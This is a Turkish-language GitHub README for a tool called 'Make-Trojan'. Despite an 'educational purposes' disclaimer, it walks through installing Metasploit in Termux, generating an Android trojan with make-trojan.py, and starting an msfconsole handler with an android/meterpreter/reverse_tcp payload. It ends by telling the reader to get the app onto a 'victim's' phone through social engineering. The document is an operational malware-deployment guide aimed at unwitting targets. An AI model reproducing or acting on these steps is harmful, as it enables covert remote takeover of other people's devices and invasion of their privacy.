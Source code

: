 # Make-Trojan
ÖNCELİKLE:Bu araç eğitim amaçlı hazırlandı.Aracın kullanımda meydana gelicek hiç bir şey sorumluluğumda değildir!
# Metasploit Kurulumu
1. apt update
2. apt upgrade
3. apt-get update
4. apt-get upgrade
5. apt install git
6. apt install wget
7. apt install curl
8. pkg install ruby -y
9. apt install root-depo
10. apt install unstable-repo
11. apt install x11-repo
12. pkg install metasploit -y
# Make-Trojan Kurulumu
git clone https://github.com/ByHypertext/Make-Trojan
1. pkg install python
2. cd Make-Trojan
3. python make-trojan.py
# Make-Trojan Kullanımı
Gerekli alanları doldurun ve dosyanın oluşmasını bekleyin
1. msfconsole
2. use exploit/multi/handler
3. set payload android/meterpreter/reverse_tcp
4. set LHOST (ip adresi)
5. set LPORT (port)
6. run
# Make-Trojan Çalıştırma
Cihaza bağlanmak için kurbanımıza uygulamayı sosyal mühendislik yardımıyla yükletip, bir kere tıklamasını sağlamak yeterli olacaktır. Uygulamayı silmesi durumunda cihaza olan bağlantı kesilecektir!
